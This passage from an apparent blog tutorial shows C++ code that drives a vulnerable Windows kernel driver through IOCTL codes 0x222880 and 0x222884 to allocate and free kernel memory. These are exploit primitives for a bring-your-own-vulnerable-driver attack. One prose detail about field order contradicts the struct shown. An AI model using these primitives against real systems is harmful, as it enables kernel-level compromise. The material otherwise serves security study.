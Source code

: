 ```cpp
    
	// send a message to the driver to allocate kernel memory using the ctl code
	unsigned long bytes_returned = 0;
	if (not DeviceIoControl(drv_handle, 0x222880, &input_buffer, sizeof(input_buffer),
		&input_buffer, sizeof(input_buffer), &bytes_returned, nullptr)) return false;

	info.KernelVirtualMemoryBuffer = input_buffer[1];
	info.PhysicalAddress_32bits = (*input_buffer) & 0xFFFFFFFF;

	return true;
}
```

The virtual memory manager does not ensure memory allocated in system space will not exceed the lifetime of the component that allocated it. This means using a vulnerable driver to allocate memory puts us at risk of a memory leak, when we unload the driver without freeing any memory, all our allocations are still active. Luckily, this driver exposes `MmFreeContiguousMemorySpecifyCache as well`. Before we move on, we should note that the protection of this allocated memory is not necessarily `RWX`. With virtualisation based security (`VBS`) & memory integrity (`HVCI`) enabled, `EPTEs` trump the normal description placed on virtual memory by `PTEs`, ensuring that no kernel page, except special kernel pages, can be `RWX`. This blog isn't at all about these topics, so we should move on, just note that these security mechanisms are enabled on default windows 11.

## Free Contiguous Memory

```cpp
  case 0x222884u:
    MmFreeContiguousMemorySpecifyCache(*(uint64_t*)(SystemBuffer + 8), 
            *(unsigned int *)SystemBuffer, 0i64);
    goto LABEL_132;
```

Using the tactics described in the previous section, we can construct our communication buffer and send a request to the vulnerable driver with the appropriate control code `0x222884`. The driver allows us to specify the range (size) we want to free, which will be the second subobject in the buffer, and of course the starting address of the buffer that is to be freed, which will be the first. Like last time, we can pass a normal array or a structure, but the maximum number of subobjects is 2. The structure would consist of an int32 and an `int64` in that order, and the array would have to be of type `int64`. I will show the code example below using a structure this time, so we know how to communicate in both ways.

```cpp
#pragma pack(push, 1)
typedef struct _FREE_CONTIGUOUS_MEMORY
{
	unsigned long long StartingVA;
	unsigned long Size;
} FREE_CONTIGUOUS_MEMORY, * PFREE_CONTIGUOUS_MEMORY;
#pragma pack(pop)

void free_kernel_memory(unsigned __int32 size, unsigned __int64 starting_va)
{
	// set up the structure
	FREE_CONTIGUOUS_MEMORY buffer{};
	buffer.StartingVA = starting_va;
	buffer.Size = size;

	// tell our vuln driver to free memory
	DWORD bytes_returned{};
	DeviceIoControl(drv_handle, 0x222884, &buffer, 
    		sizeof(buffer), &buffer, sizeof(buffer), &bytes_returned, nullptr);
}
```
